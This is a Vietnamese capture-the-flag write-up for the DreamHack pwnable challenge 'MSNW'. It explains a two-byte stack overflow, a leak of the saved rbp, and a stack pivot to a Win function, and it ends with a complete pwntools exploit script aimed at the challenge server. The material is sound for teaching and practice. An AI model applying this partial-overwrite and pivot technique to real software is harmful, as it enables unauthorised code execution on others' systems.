



# MSNW---Write-up-----DreamHack
Hướng dẫn cách giải bài MSNW cho anh em mới chơi pwnable.

**Author:** Nguyễn Cao Nhân aka Nhân Sigma

**Category:** Binary Exploitation

**Date:** 10/12/2025

## 1. Mục tiêu cần làm
- Đã học **Stack Pivot**
- Leak được 2 byte thấp nhất của saved rbp
- Tìm được địa chỉ của buf và Win
- Nổ shellcode

## 2. Cách thực thi
Đầu tiên là cần tìm được 2 byte thấp nhất của saved rbp. Bài này file C khá ngu đần nên chúng ta sẽ không đụng vào nó mà 100% xài file dịch ngược.

Trước tiên phải hiểu chương trình chạy như nào đã.

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  Init(argc, argv, envp);
  Echo();
  puts(s);
  return 0;
}
```

Đầu tiên nó sẽ chạy `Echo`, mà trong `Echo` nó lại gọi `call`

```C
__int64 Echo()
{
  __int64 result; // rax

  while ( 1 )
  {
    result = Call(0);
    if ( !(_DWORD)result )
      break;
    Call(1);
  }
  return result;
}
```

Đây là 1 vòng lặp trừ khi thỏa mãn if, làm sao để thoát ra ? Không cần quan tâm giờ hãy xem hàm `Call` có gì.

```C
__int64 __fastcall Call(int a1)
{
  if ( a1 )
    return Nyang();
  else
    return Meong();
}
```

Nó sẽ gọi 2 hàm là 

```C
__int64 Nyang()
{
  char v1[304]; // [rsp+C0h] [rbp-130h] BYREF

  printf(aNyang);
  printf("%s", v1);
  return 1LL;
}
```

```C
_BOOL8 Meong()
{
  char s[304]; // [rsp+C0h] [rbp-130h] BYREF

  memset(s, 0, sizeof(s));
  printf(format);
  read(0, s, 306uLL);
  return s[0] != 113;
}
```

Ta phát hiện lỗi `Buffer Overflow` ở hàm `Meong`. Nhưng ghi nhiều hơn 2 byte thì làm ăn được gì ? Các bạn có thể thấy ở hàm `Nyang` nó in ra `v1` nhưng điều bất ngờ là `v1` và `s` cùng 1 địa chỉ nên khi ta ghi 306 byte thì bên kia cũng in ra 306 byte. Từ đó có thể in ra 2 byte thấp nhất của saved rbp.

Thằng printf sẽ đọc đến khi gặp `b\0xx` ( tức là 0 ) thì dừng nên chúng ta phải ghi đè hết `s` thì mới in ra được saved rbp ( `memset(s, 0, sizeof(s));` làm cho tất cả byte của `s` thành `b\x00` ). 

```Python
payload = b'A' * 303
p.recvuntil("meong 🐶: ")
p.sendline(payload)
```

Mình sẽ xài sendline vì khi gửi nó sẽ kèm theo `\n` nên ta có điểm dừng để lấy 2 byte saved rbp.

```Python
p.recvuntil(b'\n')

leak_raw = p.recv(2) # 2 byte thấp nhất của saved rbp
leak_rbp = leak_raw + b'\x00' * 6 # ghi thêm byte null vào để cho đủ 8 byte
leak_rbp = int(hex(u64(leak_rbp)), 16) # biến thành địa chỉ dạng 0x....
log.success(f'Leak RBP : {hex(leak_rbp)}')
```

Vậy là xong, giờ ta cần tìm được chỉ của buf để hướng saved rbp đến nó và thực thi lệnh các lệnh mà ta đã ghi vào buf. Làm sao để tìm ư ? Hãy mở gdb lên và đặt breakpoint tại `read@plt` của `Meong`. Sau đó run và ni, nó sẽ bắt nhập chuỗi vào, cứ nhập đại đi rồi enter. Sau đó gõ `x/60gx 0x7fffffffdac0` xem đã ghi thành công chưa.



Giờ thì hãy bắt đầu phân tích nè. Khi chúng ta chạy xong `Meong` thì lúc return nó sẽ lấy saved rbp cha nó tức là saved rbp của `Call` để thay thế. Và sau khi `Call` return thì nó sẽ lấy saved rbp ông nội nó tức là saved rbp của `echo` để thay vào. Lúc nãy chúng ta đã tìm ra được 2 byte thấp nhất của saved rbp `Call` tức là saved rbp ông nội, vậy chúng ta chỉ cần tìm ra offset là ra được địa chỉ buf.



Vẫn là terminal lúc nãy, ta quan sát. Mình sẽ nói từ trái sang phải. RBP hiện tại -> RBP Call -> RBP Echo. Cái này không phải là RBP của hàm đó mà chỉ là RBP trỏ tới stack frame của hàm đó thôi nên RBP Echo là saved rbp của Call ( là cái ta đã leak ). Tính offset thì dễ thôi, `offset = địa chỉ RBP - địa chỉ ban đầu của buf`. Tại sao có địa chỉ ban đầu của buf rồi mà vẫn phải tìm ? Vì khi chúng ta chạy lại lần nữa thì cái đó sẽ bị thay đổi nên ta cần tìm offset để tính ra vị trí.



Vậy là xong ta đã có đầy đủ hết rồi hãy cook bài này thôi.

```Python
payload_final = p64(win)
while( len(payload_final) != 304 ) :
    payload_final += p64(win)

fake_rbp = leak_rbp - 816
log.success(f'Fake RBP : {hex(fake_rbp)}')

payload_final += p64(fake_rbp)[0:2]

p.send(payload_final)
```

Ở vòng lệnh while ta thực hiện rải thảm địa chỉ win. Khi RBP trỏ vào buf ta không biết nó sẽ đọc phần nào và ở đâu nhưng ta biết nó luôn luôn đọc đủ 8 byte ( ví dụ 0->7, 8->15,... ) nên ta rải thảm cứ 8 byte 1 bãi cứt.

Vậy là xong, bài này khá là phức tạp ở chỗ RBP nhưng chúng ta đã ra tới đây rồi. Hãy cho mình 1 star có thêm động lực viết tiếp nha 🐧.


```Python
from pwn import *

# p = process('./msnw')
p = remote('host3.dreamhack.games', 18539)
e = ELF('./msnw')

win = e.symbols['Win']

payload_final = p64(win)
while( len(payload_final) != 304 ) :
    payload_final += p64(win)
 
payload = b'A' * 303
p.recvuntil("meong 🐶: ")
p.sendline(payload)

p.recvuntil(b'\n')

leak_raw = p.recv(2)
leak_rbp = leak_raw + b'\x00' * 6
leak_rbp = int(hex(u64(leak_rbp)), 16)
log.success(f'Leak RBP : {hex(leak_rbp)}')

fake_rbp = leak_rbp - 816
log.success(f'Fake RBP : {hex(fake_rbp)}')

payload_final += p64(fake_rbp)[0:2]

p.send(payload_final)

p.interactive()
```
